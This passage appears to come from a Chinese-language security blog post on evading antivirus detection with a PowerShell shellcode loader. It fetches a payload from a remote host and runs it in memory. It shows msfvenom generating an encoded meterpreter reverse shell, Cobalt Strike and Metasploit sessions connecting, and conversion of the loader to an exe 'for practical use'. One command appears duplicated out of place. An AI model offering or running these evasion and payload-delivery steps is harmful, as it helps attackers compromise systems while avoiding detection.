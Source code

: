 放入 VT 再次查杀 2/58

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnCQCvDG2jZb56vT8rT8V2aFunibbxlGJpHIJAkc8beJATrSKqdLkZbtw/640?wx_fmt=jpeg)

powershell 加载器
--------------

上面的脚本通过读取 new.bin 中的字节数组并在内存执行从而成功使 cobalt strike 上线。  
那同样可以从远程文件读取 shellcode，并加载到内存执行，来实现 payload 无落地。

加载器代码如下：

```
powershell -ExecutionPolicy bypass -File a.ps1 http://10.211.55.26/shell.bi
```

CobaltStrike 生成 payload.bin 文件时，注意勾选 x64。

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnhmtzJic0bsbe9SRNpicXicVkQ2rBjvZb42p8xjSTxo6bMAcwXbREMqv3w/640?wx_fmt=jpeg)

将该 payload.bin 文件放置在远程服务器上，powershell 执行 bypass 操作。

```
powershell.exe -ExecutionPolicy bypass  -command "&'.\ps2exe.ps1' -inputFile 'old.ps1' -outputFile 'aaa.exe'"
```

CobaltStrike 正常上线。  

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnIDJJeIembQhWeaYI4wswYVceh1kSefBMhuZNodC9oFL9kWdwLaicUEg/640?wx_fmt=jpeg)

metasploit 也是同样的道理。使用 msfvenom 生成 raw 文件，看看加载器是否通用。  
生成 raw 木马

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.26 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 -o /var/www/html/shell.bin
```

powershell 直接利用加载器加载该 bin 文件。

```
powershell -ExecutionPolicy bypass -File a.ps1 http://10.211.55.26/shell.bi
```

metasploit 也可以正常上线。  

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnDnXgJPQicccmnUxaWyibBMIw0NOjROY2LpeyHudGLSv9RPM1AHmt2dlA/640?wx_fmt=jpeg)

powershell 转 exe
----------------

在修改了加载器之后，我们还可以通过 powershell 代码将其加载器转换为 exe 程序。  
借助 Win-PS2EXE 项目，通过 ps2exe.ps1 脚本将加载器转为 exe 文件。更方便实战中使用。

```
powershell.exe -ExecutionPolicy bypass  -command "&'.\ps2exe.ps1' -inputFile 'old.ps1' -outputFile 'aaa.exe'"
```
